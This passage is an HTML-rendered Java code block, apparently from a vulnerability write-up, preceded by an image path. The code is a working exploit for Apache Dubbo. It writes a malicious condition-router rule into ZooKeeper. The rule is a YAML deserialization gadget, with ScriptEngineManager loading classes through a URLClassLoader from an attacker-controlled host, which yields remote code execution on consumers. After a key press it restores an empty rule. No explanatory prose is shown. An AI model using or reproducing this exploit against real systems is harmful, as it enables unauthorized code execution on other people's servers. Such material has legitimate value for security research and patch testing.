         <span class="n">client</span> <span class="o">=</span> <span class="nc">CuratorFrameworkFactory</span><span class="o">.</span><span class="na">newClient</span><span class="o">(</span><span class="n">zookeeperHost</span> <span class="o">+</span> <span class="s">":2181"</span><span class="o">,</span> <span class="mi">60</span> <span class="o">*</span> <span class="mi">1000</span><span class="o">,</span> <span class="mi">60</span> <span class="o">*</span> <span class="mi">1000</span><span class="o">,</span> <span class="k">new</span> <span class="nc">ExponentialBackoffRetry</span><span class="o">(</span><span class="mi">1000</span><span class="o">,</span> <span class="mi">3</span><span class="o">));</span>
        <span class="n">client</span><span class="o">.</span><span class="na">start</span><span class="o">();</span>

        <span class="nc">String</span> <span class="n">path</span> <span class="o">=</span> <span class="s">"/dubbo/config/dubbo/"</span> <span class="o">+</span> <span class="n">consumer_app_name</span> <span class="o">+</span> <span class="s">".condition-router"</span><span class="o">;</span>

        <span class="nc">String</span> <span class="n">rule</span> <span class="o">=</span> <span class="s">"---\n"</span> <span class="o">+</span>
                <span class="s">"conditions:\n"</span> <span class="o">+</span>
                <span class="s">" - !!javax.script.ScriptEngineManager [\n"</span> <span class="o">+</span>
                <span class="s">"   !!java.net.URLClassLoader [[\n"</span> <span class="o">+</span>
                <span class="s">"     !!java.net.URL [\""</span> <span class="o">+</span> <span class="n">attackerHost</span> <span class="o">+</span> <span class="s">"\"]\n"</span> <span class="o">+</span>
                <span class="s">"   ]]\n"</span> <span class="o">+</span>
                <span class="s">" ]"</span><span class="o">;</span>

        <span class="k">try</span> <span class="o">{</span>
            <span class="k">if</span> <span class="o">(</span><span class="n">client</span><span class="o">.</span><span class="na">checkExists</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">)</span> <span class="o">==</span> <span class="kc">null</span><span class="o">)</span> <span class="o">{</span>
                <span class="n">client</span><span class="o">.</span><span class="na">create</span><span class="o">().</span><span class="na">creatingParentsIfNeeded</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">);</span>
            <span class="o">}</span>
            <span class="n">client</span><span class="o">.</span><span class="na">setData</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">,</span> <span class="n">rule</span><span class="o">.</span><span class="na">getBytes</span><span class="o">());</span>
        <span class="o">}</span> <span class="k">catch</span> <span class="o">(</span><span class="nc">Exception</span> <span class="n">e</span><span class="o">)</span> <span class="o">{</span>
            <span class="n">e</span><span class="o">.</span><span class="na">printStackTrace</span><span class="o">();</span>
        <span class="o">}</span>

        <span class="nc">System</span><span class="o">.</span><span class="na">in</span><span class="o">.</span><span class="na">read</span><span class="o">();</span>

        <span class="k">if</span> <span class="o">(</span><span class="n">client</span><span class="o">.</span><span class="na">checkExists</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">)</span> <span class="o">==</span> <span class="kc">null</span><span class="o">)</span> <span class="o">{</span>
            <span class="n">client</span><span class="o">.</span><span class="na">create</span><span class="o">().</span><span class="na">creatingParentsIfNeeded</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">);</span>
        <span class="o">}</span>
        <span class="n">client</span><span class="o">.</span><span class="na">setData</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">,</span> <span class="s">""</span><span class="o">.</span><span class="na">getBytes</span><span class="o">());</span>
    <span class="o">}</span>
</code></pre></div></div>

